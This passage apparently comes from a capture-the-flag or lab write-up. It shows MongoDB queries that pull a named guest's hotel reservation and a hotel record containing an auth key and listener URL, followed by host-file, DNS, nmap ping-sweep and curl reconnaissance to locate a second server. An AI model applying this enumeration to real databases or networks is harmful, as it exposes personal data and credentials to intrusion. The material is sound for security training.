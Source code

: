 ## 3. Finding Crow's Reservation
### 3.1 Querying for Crow's Information
We searched for Crow's email in the reservations:

```javascript
// First attempt with wrong collection name (common mistake)
db.hotel_reservation.find()  // No results

// Correct collection name
db.hotel_reservations.find({email: "jtippin4y@unknownmail.com"})

// Found Crow's reservation:
{
  _id: ObjectId('6482da85fc13ae6f9dfaf249'),
  hotelId: ObjectId('647f0f3ea9108a79b01c63ef'),
  name: 'Jefferson Tippin',
  email: 'jtippin4y@unknownmail.com',
  dateFrom: ISODate('2023-06-16T00:00:00.000Z'),
  dateTo: ISODate('2023-06-19T00:00:00.000Z'),
  guestCount: 1,
  childrenCount: 0,
  file: '4c603bcc-fb34-45fe-ab5a-aaa87b74f539.pdf'
}
```

### 3.2 Getting Hotel Information
We queried the hotels collection using the hotelId from the reservation:

```javascript
db.hotels.find({_id: ObjectId('647f0f3ea9108a79b01c63ef')})

// Output:
{
  _id: ObjectId('647f0f3ea9108a79b01c63ef'),
  name: 'Vegas Suites',
  address: '456 City Center, Las Vegas, Nevada',
  image: '/images/hotel-2.jpg',
  price: 220,
  host: 'http://vegassuites.hv/reservation_listener.php',
  authKey: '1e4b514d-05b6-44f7-9b40-dddfbc889e22'
}
```

## 4. Discovering the Second Server
### 4.1 Network Scanning
We needed to find the IP address of `vegassuites.hv`:

```bash
# First check /etc/hosts
cat /etc/hosts
# No entry for vegassuites.hv

# Check DNS resolution
nslookup vegassuites.hv
# No response

# Perform network scan
nmap -sn 172.20.4.0/24
# Found active hosts: 172.20.4.1, 172.20.4.37, 172.20.4.64 (us), 172.20.4.84

# Check for web servers
for ip in 172.20.4.{37,84}; do curl -I http://$ip/; done
```